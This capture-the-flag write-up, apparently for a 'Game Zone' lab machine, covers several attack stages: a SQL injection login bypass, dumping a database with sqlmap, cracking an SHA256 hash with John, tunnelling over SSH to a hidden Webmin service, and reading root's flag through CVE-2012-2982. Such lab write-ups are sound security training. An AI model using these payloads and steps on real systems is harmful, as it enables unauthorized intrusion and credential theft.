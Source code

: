 ﻿## Game Zone
SQLi (exploiting this vulnerability manually and via SQLMap), cracking a users hashed password, using SSH tunnels to reveal a hidden service and using a metasploit payload to gain root privileges.

### Recon
- The initial visit to the page looks like a Game community page have couple links for action (but not working like register) and a login screen with Agent 47 (Hitman) image (reverse search with Google). 
- Also it looks the web page is running on php, noticed with failed login and search option which redirected to index.php
- Nmap revealed the below information: 
- 

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
    |   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
    |_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Game Zone
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

### Logging in
- Using the SQL injection with user name as `' or 1=1 -- -` and any password, logged into the web page. 
- The page then navigated to portal.php where there is a search.
- Using Burp, captured and saved the search request to a file, search_request.txt
- 

    POST /portal.php HTTP/1.1
    Host: 10.10.17.195
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.17.195/portal.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 19
    DNT: 1
    Connection: close
    Cookie: PHPSESSID=smej272kr499jb9bjd53rcin26
    Upgrade-Insecure-Requests: 1
    
    searchitem=testgame


-  Run the `sqlmap` with the request as input and it will find the database details.
 `sqlmap -r search_request.txt --dbms=mysql --dump`
 - The sqlmap returned:
	 - A table "users" which has hashed usernames and passwords in column "pwd" with SHA256.
	 - `agent47` hashed password is `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`
	 - Another table, "post" has game name and details. 

### Cracking the hashed password
Using the `John`, we can  try to find the plain text for the given hash password with a word list. 

`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256` and cracked the password as *videogamer124*.

### Checking the services 
Login to the victim machine over ssh using the obtained credentials. 

- The host is running below sockets:  
- 

    $ ss -tulpn
    Netid State      Recv-Q Send-Q  Local Address:Port                 Peer Address:Port              
    udp   UNCONN     0      0                   *:10000                           *:*                  
    udp   UNCONN     0      0                   *:68                              *:*                  
    tcp   LISTEN     0      80          127.0.0.1:3306                            *:*                  
    tcp   LISTEN     0      128                 *:10000                           *:*                  
    tcp   LISTEN     0      128                 *:22                              *:*                  
    tcp   LISTEN     0      128                :::80                             :::*                  
    tcp   LISTEN     0      128                :::22                             :::*      

- There is a service running on port 10000 which was not showed in nmap results, could be due to firewall block. 
- Established a local SSH tunnel with the victim to connect to the blocked service, by creating the tunnel from local host (on port 10001) and the remote (to 10000)  `ssh -L 10001:localhost:10000 agent47@10.10.17.195` 

- The port 10000 on victim is running a Webmin service (CMS) with version 1.580
-
    
    nmap -p 10001 -A 127.0.0.1
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-05 17:30 EDT
    Nmap scan report for localhost (127.0.0.1)
    Host is up (0.000064s latency).
    
    PORT      STATE SERVICE VERSION
    10001/tcp open  http    MiniServ 1.580 (Webmin httpd)
    | http-robots.txt: 1 disallowed entry 
    |_/
    |_http-title: Login to Webmin

### Escalating Privileges
The Webmin version 1.580 is vulnerable for remote code execution as defined in [CVE-2012-2982](https://www.exploit-db.com/exploits/21851). 
By looking at the exploit, we can access any file by through /file/show.cgi; using this we can access the flag and has a value *a4b945830144bdd71908d12d902adeee*. Metasploit (exploit/unix/webapp/webmin_show_cgi_exec) is really not needed here. 

    http://127.0.0.1:10001/file/show.cgi/root/root.txt

